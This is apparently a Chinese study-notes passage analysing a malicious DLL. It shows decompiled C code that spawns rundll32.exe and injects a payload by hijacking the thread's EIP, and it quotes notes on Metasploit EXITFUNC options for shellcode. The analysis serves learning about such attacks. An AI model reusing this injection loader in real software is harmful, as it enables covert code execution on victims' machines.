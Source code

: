 `DLL.DLL`的反编译结果如下：

```c
BOOL __stdcall DllEntryPoint(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
  if ( fdwReason == 1 )
    sub_10001050();
  return 1;
}

void __noreturn sub_10001050()
{
  CONTEXT Context; // [esp+0h] [ebp-324h]
  struct _STARTUPINFOA StartupInfo; // [esp+2CCh] [ebp-58h]
  struct _PROCESS_INFORMATION ProcessInformation; // [esp+310h] [ebp-14h]
  LPVOID lpBaseAddress; // [esp+320h] [ebp-4h]

  ZeroMemory(&StartupInfo, 'D');
  StartupInfo.cb = 68;
  // CommandLine is 'rundll32.exe'
  if ( CreateProcessA(0, CommandLine, 0, 0, 0, 'D', 0, 0, &StartupInfo, &ProcessInformation) )
  {
    Context.ContextFlags = 65539;
    GetThreadContext(ProcessInformation.hThread, &Context);
    lpBaseAddress = VirtualAllocEx(ProcessInformation.hProcess, 0, 0x800u, 0x1000u, 0x40u);
    WriteProcessMemory(ProcessInformation.hProcess, lpBaseAddress, &unk_10003000, 0x800u, 0);
    Context.Eip = (DWORD)lpBaseAddress;
    SetThreadContext(ProcessInformation.hThread, &Context);
    ResumeThread(ProcessInformation.hThread);
    CloseHandle(ProcessInformation.hThread);
    CloseHandle(ProcessInformation.hProcess);
  }
  ExitThread(0);
}
```

calc.DLL是一种标准正常的dll；而DLL.DLL则不然。它启动一个正常`rundll32.exe`进程，然后做线程注入，并控制线程上下文的EIP转去运行注入指令。关于DLL注入网上有很多文章，未来我再去系统地研究这方面内容。

**目前我还不清楚崩溃的原因。相比之下，FlashPlayerCPLApp.cpl也采用了线程注入的方法，但是却比DLL.DLL代码多不少。推测崩溃是由于执行前没有保存好EIP，执行payload后无法正常将控制流交还给宿主进程导致的。**

还有一个问题，为什么calc.DLL会导致重复弹窗？

---

另外，一开始我以为是生成Payload时`EXITFUNC`参数设置不正确的问题，经过试验，发现与其无关。不过也因此补充了一些关于`EXITFUNC`的知识，摘录如下：

> There are 4 different values for EXITFUNC: none, seh, thread and process. Usually it is set to thread or process, which corresponds to the ExitThread or ExitProcess calls. "none" technique will calls GetLastError, effectively a no-op. The thread will then continue executing, allowing you to simply cat multiple payloads together to be run in serial.  
> EXITFUNC will be useful in some cases where after you exploited a box, you need a clean exit, even unfortunately the biggest problem is that many payloads don’t have a clean execution path after the exitfunc.
>   
> **SEH:** This method should be used when there is a structured exception handler (SEH) that will restart the thread or process automatically when an error occurs.  
> **THREAD:** This method is used in most exploitation scenarios where the exploited process (e.g. IE) runs the shellcode in a sub-thread and exiting this thread results in a working application/system (clean exit).  
> **PROCESS:** This method should be used with multi/handler. This method should also be used with any exploit where a master process restarts it on exit.
